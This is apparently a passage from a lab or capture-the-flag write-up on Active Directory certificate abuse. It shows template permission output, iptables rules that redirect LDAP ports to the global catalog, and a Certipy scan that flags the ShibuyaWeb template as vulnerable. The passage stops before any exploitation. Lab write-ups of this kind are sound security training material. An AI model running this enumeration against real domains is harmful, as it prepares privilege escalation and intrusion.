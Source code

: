 ```
    pkiextendedkeyusage                   : Any Purpose, Server Authentication
    mspki-certificate-application-policy  : Any Purpose, Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : SHIBUYA\Domain Admins         S-1-5-21-87560095-894484815-3652015022-512
                                      SHIBUYA\Enterprise Admins     S-1-5-21-87560095-894484815-3652015022-519
                                      SHIBUYA\t1_admins             S-1-5-21-87560095-894484815-3652015022-1103
      Object Control Permissions
        Owner                       : SHIBUYA\_admin                S-1-5-21-87560095-894484815-3652015022-500
        WriteOwner Principals       : SHIBUYA\_admin                S-1-5-21-87560095-894484815-3652015022-500
                                      SHIBUYA\Domain Admins         S-1-5-21-87560095-894484815-3652015022-512
                                      SHIBUYA\Enterprise Admins     S-1-5-21-87560095-894484815-3652015022-519
        WriteDacl Principals        : SHIBUYA\_admin                S-1-5-21-87560095-894484815-3652015022-500
                                      SHIBUYA\Domain Admins         S-1-5-21-87560095-894484815-3652015022-512
                                      SHIBUYA\Enterprise Admins     S-1-5-21-87560095-894484815-3652015022-519
        WriteProperty Principals    : SHIBUYA\_admin                S-1-5-21-87560095-894484815-3652015022-500
                                      SHIBUYA\Domain Admins         S-1-5-21-87560095-894484815-3652015022-512
                                      SHIBUYA\Enterprise Admins     S-1-5-21-87560095-894484815-3652015022-519
<SNIP>
```

We also can configure port forwarding with `iptables`, which allowed me to use [certipy](https://github.com/ly4k/Certipy)
```
# Forward to 
sudo iptables -t nat -A OUTPUT -d 10.10.84.227 -p tcp --dport 389 -j DNAT --to-destination 10.10.84.227:3268
sudo iptables -t nat -A OUTPUT -d 10.10.84.227 -p tcp --dport 636 -j DNAT --to-destination 10.10.84.227:3269
# To delete
sudo iptables -t nat -nL --line-numbers
sudo iptables -t nat -D OUTPUT 2 
```

Now, when we run `certipy`, we find that there is vulnerable certificate template
```
└─$ certipy find -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -debug -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)
<SNIP>
Certificate Templates
  0
    Template Name                       : ShibuyaWeb
    Display Name                        : ShibuyaWeb
    Certificate Authorities             : shibuya-AWSJPDC0522-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : None
```